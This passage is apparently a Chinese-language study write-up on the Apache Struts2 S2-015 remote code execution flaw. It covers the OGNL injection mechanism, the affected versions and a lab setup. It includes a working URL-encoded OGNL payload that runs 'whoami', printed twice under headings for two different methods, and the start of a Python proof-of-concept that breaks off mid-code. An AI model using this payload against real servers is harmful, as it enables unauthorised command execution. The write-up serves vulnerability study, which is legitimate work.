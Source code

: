&emsp;&emsp;&emsp;&emsp;在Struts2中没有对Action的名称没有进行转义和白名单检查所造成ognl表达式被解析,从而执行恶意代码.其中一个场景是当action的name配置为通配符时,可通过访问<ognl_expression>.action来传入ognl表达式,并在加载jsp文件时触发执行.漏洞原理跟S2-012类似,S2-012利用的重定向类型,S2-015利用的Action的名称.

> 第二种是:

&emsp;&emsp;&emsp;&emsp;当\\$和%字符组合使用时,ognl表达式会被TextParseUtil.translateVariables二次执行.

```java
<action name="Helloworld" class="org.test.HelloworldAction">
	<result name="success" type="httpheader">
		<param name="headers.foobar">\${message}</param>
	</result>
</action>
```

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.14.2

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 第一种执行命令

```java
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream())%2C%23q%7D.action
```

#### 第二种执行命令

```java
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream())%2C%23q%7D.action
```

### POC

```python
#!/usr/bin/env python3

import re
import urllib
import random
import string
import requests

class S2_015_1_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-015漏洞,又名CVE-2013-2134/CVE-2013-2135漏洞',
            'description': 'Struts2 S2-013漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.14.2',
            'date': '2013-06-03',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta() 
        self.headers = {
```